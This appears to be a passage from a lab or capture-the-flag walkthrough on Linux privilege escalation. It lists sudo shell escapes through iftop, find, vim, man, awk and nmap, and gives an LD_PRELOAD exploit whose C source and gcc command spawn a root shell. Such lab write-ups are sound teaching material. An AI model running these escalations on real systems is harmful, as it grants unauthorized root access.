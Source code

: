 The binary `iftop` can be exploited using `sudo iftop` and  executing `!/bin/sh`.

The binary `find` can be exploited using `sudo find . -exec /bin/sh \; -quit`.

The binary `vim` can be exploited using `sudo vim -c ':!/bin/sh'`.

The binary `man` can be exploited using `sudo man man` and executing `!/bin/sh`.

The binary `awk` can be exploited using `sudo awk 'BEGIN {system("/bin/sh")}'`.

The binary `nmap` can be exploited using `sudo nmap --interactive` and executing `!/bin/sh`.


## Task 7 - Sudo - Environment Variables

- LD_PRELOAD and LD_LIBRARY_PATH are inherited from user's environment.
- LD_PRELOAD loads a shared object before any others when a program is run.
- LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Check the sudo capabilities using `sudo -l`.
{% capture code %}{% raw %}Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a shared object using the exploit code, to exploit using path variable `LD_PRELOAD`.
{% capture code %}{% raw %}gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}{% endraw %}{% endcapture %} {% include code.html code=code %}

Run any program allowed by `sudo`, using `sudo LD_PRELOAD=/tmp/preload.so nmap`. A `privileged shell` would be spawned.

Check what are the shared libraries used by `apache2`, using `ldd /usr/sbin/apache2`.
{% capture code %}{% raw %}linux-vdso.so.1 =>  (0x00007fff91533000)
libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f51b2efb000)
libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f51b2cd7000)
libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f51b2a9d000)
libpthread.so.0 => /lib/libpthread.so.0 (0x00007f51b2881000)
libc.so.6 => /lib/libc.so.6 (0x00007f51b2515000)
libuuid.so.1 => /lib/libuuid.so.1 (0x00007f51b2310000)
librt.so.1 => /lib/librt.so.1 (0x00007f51b2108000)
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f51b1ed1000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f51b1ccc000)
libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f51b1aa4000)
/lib64/ld-linux-x86-64.so.2 (0x00007f51b33b8000){% endraw %}{% endcapture %} {% include code.html code=code %}
